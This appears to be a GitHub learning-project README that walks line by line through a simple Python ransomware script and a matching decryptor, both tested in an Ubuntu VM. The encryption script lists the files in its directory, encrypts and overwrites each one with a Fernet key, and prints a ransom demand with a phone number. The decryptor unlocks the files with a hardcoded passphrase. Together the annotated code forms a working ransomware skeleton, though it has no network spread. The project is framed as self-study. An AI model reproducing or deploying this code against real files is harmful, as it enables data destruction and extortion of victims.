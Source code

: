 ## Ransomware

Ransomware deployment using Python scripting

## Objective

As ransomware attacks have been on a steady upward trend, I wanted to take the time to understand the mechanics of one of the most popular cyberattacks methods.

### Skills Learned


- Python scripting
- Cryptography
 

### Tools Used

- Python
- Linux VM  
- Fernet

## Steps

First we are going to spin up an Ubuntu VM

Next we will create a directory with several files that we are going to test our ransomware on.

So we insert into the CLI "mkdir ransomware" to create the directory and inside the directory, run "echo "file content" > filename.txt" a few times to create several files.

Next we will create the Python script file.

![Encryption](https://github.com/user-attachments/assets/edf5a8c4-e0b2-4010-b4cf-8c5a9ea1bffd)

ref:

To make this project easier to read I will briefly notate each line of code seperated by "//" to explain its utility in the script.

First we have to include the shebang #! so that Linux runs the file as a script.

Import os // allows python to interact with the OS.

from cryptography.fernet import Fernet // 128bit AES

files = [] // This will create an empty list called files.

for file in os.listdir() // This is a for loop and will list all the files in the directory.

if os.path.isfile(file) // if object is a file add to encryption list

if file == "MALWARE.py" or file == "thekey.key" or file == "DECRYPT.py" : (next line)continue(next line) files.append(file) // This is seperating our script files that are in the same directory from the file list we created earlier in the script.

print(files) // Will display the "files" list in the terminal.

ref: test print

key = Fernet.generate_key() // This will generate the encryption key.

with open("thekey.key", "wb") as thekey: // This line uses the open function to open the file in script in write mode and reference the variable as "thekey" throughout the script.

for file in files: // This is creating a loop for the file's in the files list created earlier.

with open(file, "rb") as thefile: // This line will open the file's in the list in read binary mode and assigned the alias "thefile".

contents = thefile.read() // we have now made contents a alias to the file.read.

contents_encrypted = Fernet(key).encrypt(contents) // This line encrypt the contents with the Fernet key.

with open(file, "wb") as thefile: // sets script to write to "thefile".

thefile.write(contents_encrypted) // writes the "contents_encrypted" to the file.

print("All of your files have been encrypted. Contact 890-589-5542 to decrypt your data, for a price") // This is displayed in the terminal when the Python script is executed

DECRYPT

![Decryption](https://github.com/user-attachments/assets/5d1837e5-909c-4cf7-9fe0-a973e5fd3e94)

ref:

The first half of the script from the beginning up until the "print(files)" line is the same as the MALWARE.py script, I will not reiterate these lines for obvious reasons.

with open("thekey.key", "rb") as key: // opens key file in read binary mode making "key" a variable.

secretkey = key.read() // The "secretkey" equals the contents of the file variable assigned as "key", the ".read" will make the encryption key functional in the decryption portion of the script.

secretphrase = "112113114" // This is going to be the secret password that decrypts the files.

user_phrase = input("Enter the secret phrase to decrypt your files\n") // input is going to allow the user to type the password into the terminal.  

if user_phrase == secretphrase: // If the password is entered correctly by the user, the nested for loop will execute.

The code of the for loop is going to remain very similar to the for loop in the MALWARE.py script with a few small changes. 

contents_decrypted = Fernet(secretkey).decrypt(contents) // This decrypts the files using the decryption key generated by Fernet. 

thefile.write(contents_decrypted) // The contents are now written back to the file.

print("Files decrypted, thank you for your business") // the last sequence of our if statement will print this message informing the user that their files have been decrypted.

else: // If  the "if" statement is false the else statement will run.

print("Wrong passphrase") // When the user inputs an incorrect password upon being prompted for the secret phrase, this output will print in the terminal.


Lets test our scripts!

![results](https://github.com/user-attachments/assets/ef007d90-74cf-40ae-b97d-67d0827bd6ac)

cat file2.txt // This will display the contents of a the files.

cat thekey.key // Here I am showing the 128bit encryption key, this file is appended from the file list that becomes encrypted in our MALWARE.py script, 
if our encryption key got encrypted, it would be a messy situation.

python3 MALWARE.py // We have now executed our Python script in the directory. 

You now see a list of the files encrypted and our message we left for the user on who to contact to decrypt the files, for a price.

cat file2.txt // As you can see, the data in file is now encrypted.

python3 DECRYPT.py // Now that the files have been encrypted lets decrypt them with our decryption script.

The script prompts us for the secret phrase which was set in the DECRYPT.py script.

We then get a message thanking us for our business, and that the files have been decrypted.

cat file2.txt // Now when we check our file we have the original contents of the file because our data has been decrypted.




 




with = resource management as = used along with to allocater where to input resources / for = loop

NO DROPPER

*Ref 1: Network Diagram*

